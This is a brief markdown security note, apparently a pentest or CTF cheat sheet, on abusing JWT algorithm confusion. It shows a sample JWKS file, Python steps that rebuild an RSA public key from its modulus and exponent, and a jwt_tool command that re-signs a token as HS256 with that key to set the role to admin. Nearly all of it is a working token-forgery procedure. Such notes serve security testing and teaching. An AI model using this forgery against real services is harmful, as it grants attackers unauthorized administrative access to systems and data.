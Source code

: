 ```yaml
---
title: "JWT"
date: 2024-8-1
tags: ["Jwt", "Jwks", "Cookies", "Cryptography", "Web Exploitation", "Token-Based Authentication"]
---
```


### Abuse #1: Algorithm confusion

#### 0. Sample jwks.json

```console
{ 
    "keys": [
        {
        "kty": "RSA",
        "use": "sig",
        "alg": "RS256",
        "n": "<BASE64_n>",
        "e": "AQAB"
        }
    ]
}
```

#### 1. Create a public key

```console
# Invoking python interpreter
python3
```

```console
from base64 import urlsafe_b64decode
```

```console
from Crypto.PublicKey import RSA
```

```console
e = int.from_bytes(urlsafe_b64decode(b'AQAB'))
```

```console
n = int.from_bytes(urlsafe_b64decode(b'<BASE64_N>'))
```

```console
key = RSA.construct((n, e))
```

```console
# Save it to public.pem
print(key.exportKey().decode())
```

#### 2. Forge a jwt

```console
# For example, modify role to admin
python3 jwt_tool.py -S hs256 -k public.pem -I -pc role -pv admin <JWT>
```

<small>*Ref: [jwt_tool](https://github.com/ticarpi/jwt_tool)*</small>

